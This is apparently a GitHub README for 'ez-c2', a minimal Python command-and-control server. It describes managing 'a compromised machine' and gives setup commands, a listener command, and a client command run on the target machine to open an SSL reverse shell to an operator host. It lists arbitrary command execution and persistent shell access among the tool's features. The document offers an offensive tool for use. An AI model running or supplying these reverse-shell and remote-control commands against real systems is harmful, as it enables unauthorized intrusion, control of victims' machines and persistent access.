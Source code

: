 init!

# Intro

ez-c2 is a lightweight and minimal Command & Control (C2) server written in Python 3. It enables remote shell access via SSL, making it easy to manage a compromised machine from the command line interface (CLI).




# Getting started

Clone the repository and set up your Python virtual environment: 

```bash
git clone https://github.com/auteqia/ez-c2.git
cd ez-c2/
python3 -m venv venv
chmod +x ./venv/bin/activate
./venv/bin/activate
```

Install any dependencies if required :
```bash
pip install -r requirements.txt
```


# Usage

It can be used server-side or client-side. 


## Server-side | Listening

Start the C2 server and specify the port to listen on: 
```bash
Usage: python3 script.py -listen <port>
```

Example: 
```bash
python3 script.py -listen 4443
```

## Client-side | Connecting

Run the client script on the target machine to initiate a reverse shell: 
```bash
python3 -connect <server_ip> <server_port>
```
Example: 
```bash
python3 script.py -connect 192.168.1.100 4443
```
The client will establish an SSL connection to the server and spawn a shell. 


# What can you do with ez-c2 ?

Once connected, ez-c2 allows the operator to: 

- Execute arbitrary system commands on the client-side machine
- Receive output of commands via a secure SSL tunnel
- Maintain persistent shell access (implementation dependent)
    


